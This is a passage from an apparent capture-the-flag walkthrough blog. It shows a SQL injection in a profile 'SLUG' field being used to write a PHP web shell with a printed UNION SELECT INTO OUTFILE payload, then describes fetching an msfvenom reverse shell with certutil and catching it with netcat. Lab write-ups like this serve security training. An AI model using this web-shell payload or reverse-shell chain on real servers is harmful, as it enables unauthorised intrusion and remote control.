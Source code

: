 After spending what felt like forever, we managed to reset the password for account “jerren.devops” with the following. I tried all the profiles with words listed on the page for the “reminder” section. Importantly, during this time, we had started GoBuster on the other ports in case this didn’t work out. I very nearly gave up here. Like a lot of people, I think I got lucky, which is why I don’t really like the box. Perseverance counts.

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-28.png)

From there we go into the profile;

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-25.png)

And then Edit;

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-29.png)

We get a big hint in regards to the SLUG request, which looks like querying a MySQL database. Let’s test to see if it’s vulnerable to SQL injection by inputting a single quotation mark.

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-42.png)

Looks like this is vulnerable to SQLi, and the vulnerable query is also revealed;

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-31.png)

We should be able to write a basic php shell to this machine and run commands on it from our Kali machine.

We enter the following into the SLUG request field. We can enumerate the base install path for Xampp via the phpinfo page we saw before.

```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
 
```

When we hit Request we don’t get an error on our page and note that the URL has changed. We can attempt to run some commands using our new shell by using curl.

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-77.png)

Awesome! Let’s try to upload a proper reverse shell onto the box and execute it. I create a reverse shell using msfvenom. I am going to use the certutil command on my php shell to call back to my Kali box, but we will need to URL encode the command to account for the spaces and characters in the link.

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-32.png)

Paste the certutil command onto the end of our php shell. Make sure you HTTP server is up and running on your Kali machine.

![](https://defcreds.b-cdn.net/wp-content/uploads/2021/07/image-34-1024x122.png)

Setup our netcat listener and execute the shell by once again amending the command to run the reverse shell.
